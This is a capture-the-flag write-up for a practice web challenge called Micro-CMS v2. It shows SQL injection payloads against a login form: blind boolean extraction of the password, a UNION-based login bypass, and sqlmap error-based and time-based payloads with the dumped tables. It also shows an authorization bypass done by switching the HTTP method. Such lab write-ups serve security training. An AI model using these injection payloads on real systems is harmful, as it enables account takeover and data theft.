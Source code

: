 # Micro-CMS v2

## Difficulty: Moderate

## About

This CTF challenge involved a login form vulnerable to SQLi, which is exploited to gain account access.

There are 3 flags to capture from 0-2.

## FLAG2

Navigating the site, pages 1-3 exist, but page 3 (```/page/3```) shows a permission error. All links lead eventually to the login page:

![Login](imgs/1_mcms2.jpg "Login")

Enter a single quote ```'``` into the ```Username:``` field shows that it is vulnerable to SQLi and provides a useful error message:

>Traceback (most recent call last):
>  File "./main.py", line 145, in do_login
>    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
>  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
>    self.errorhandler(self, exc, value)
>  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
>    raise errorvalue
>ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual >that corresponds to your MariaDB server version for the right syntax to use near >''''' at line 1")

The query used is ```SELECT password FROM admins WHERE username=\'%s\''``` and the DBMS is MySQL.

Before pulling out sqlmap, try exploit it manually, which is less intrusive and can yield different results, some of which sqlmap may miss.

Entering Username ```'-- ``` (note that a space if required after the comment in MySQL) yields ```Unknown user``` error. Entering Username ```' or 1=1-- ``` yields ```Invalid password``` error.

These error messages can be exploited to find valid usernames and passwords, though the username is bypassable making the ```Username``` field true. E.g. to determine the length of the password:

Entering Username ```' or IF(length(password)<10, TRUE, FALSE)-- ```

This query returns ```Invalid password```, indicating that the ```IF``` statement returned true, meaning the length of the password is less than 10. Likewise, ```Unknown user``` indicates that the ```IF``` statement returned false. Continuing testing this query , it is determined that the length of the password is ```7```.

Now, each character in the password can be found by another ```IF``` condition with query ```' or IF(substring(password,1,1)='x', TRUE, FALSE)-- ```. Here, the first character in the password is tested to see if it equals ```'x'```. By testing all characters until character 7 (the length found earlier) and seeing if the ```Invalid password``` error is shown to see if the character is correct, the password can be found. Write a script or use Burp Intruder to automate this. 

E.g. find the first character with ```' or IF(substring(password,1,1)='TEST_CHAR_HERE', TRUE, FALSE)-- ```, the second character with ```' or IF(substring(password,2,1)='TEST_CHAR_HERE', TRUE, FALSE)-- ```, and so on until ```(substring(password,7,1)```.

Doing this deduced the password, and upon using it to logon, yielded ```FLAG1```.

#### FLAG2 is captured.

## FLAG0

(Alternate solution than what follows: Upon reviewing the hints, it suggests using a ```UNION``` injection. Therefore, ```UNION``` can be leveraged with keyword ```AS``` to get password from an alias rather than from the actual table e.g. Username: ```' UNION SELECT '1234' as password-- ``` and Password: ```1234``` successfully logs in and allows the viewing of private ```/page/3```. This is much simpler than the sqlmap exploit.)

This ```IF``` query used to find ```FLAG2``` can be exploited further on ```information_schema.tables``` to get the databases and tables using columns ```TABLE_SCHEMA``` and ```TABLE_NAME```, but given the large search space this would be very time consuming.

So, try sqlmap on the login form with ```--risk=3``` to try to find a better exploit, which found:

>Parameter: username (POST)
>    Type: error-based
>    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
>    Payload: username=yZPi' AND (SELECT 7245 FROM(SELECT COUNT(*),CONCAT(0x716a767a71,(SELECT (ELT(7245=7245,1))),0x71766b7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'zGLM'='zGLM&password=
>
>    Type: time-based blind
>    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
>    Payload: username=yZPi' AND (SELECT 6535 FROM (SELECT(SLEEP(5)))ExUj) AND 'cIlM'='cIlM&password=

Two exploits found: One exploit leverages the error message, the other leverages a blind time-based query to deduce data. Use this to dump to DBs:

>web server operating system: Linux Ubuntu
>web application technology: Nginx 1.14.0
>back-end DBMS: MySQL >= 5.0
>available databases [4]:
>[*] information_schema
>[*] level2
>[*] mysql
>[*] performance_schema
>
>Database: level2
>Table: admins
>[1 entry]
>+----+----------+----------+
>| id | username | password |
>+----+----------+----------+
>| 1  | shayna   | tanesha  |
>+----+----------+----------+
>
>Database: level2
>Table: pages
>[3 entries]
>+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
>| id | body                                                                                                                                                                                                                                                                                                                           | title               | public |
>+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
>| 1  | ## Version 2\\nThis version fixed the multitude of security flaws and general functionality bugs that plagued v1.  Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20.  By default, users need to be an admin to add or edit pages now.\\n | Micro-CMS Changelog | 1      |
>| 2  | Just testing some markdown functionality.\\n\\n\!\[adorable kitten](https://static1.squarespace.com/static/54e8ba93e4b07c3f655b452e/t/56c2a04520c64707756f4267/1493764650017/)\\n\\n<button>Some button</button>                                                                                                                 | Markdown Test       | 1      |
>| 3  | My secret is **FLAG0**                                                                                                                                                                                                                                      | Private Page        | 0      |
>+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+

DB ```level2``` contains the contents of each page, including the private page ```/page/3``` which contains FLAG0.

#### FLAG0 is captured.

## FLAG1

Hints state:
- Just because request fails with one method doesn't mean it will fail with a different method
- Different requests often have different required authorization

This seems to point to HTTP methods. Try changing the method on pages that require authorization e.g.

Change ```GET /x/page/edit/2 HTTP/1.1``` to ```POST /x/page/edit/2 HTTP/1.1```

#### FLAG1 is captured.

All flags captured
=====
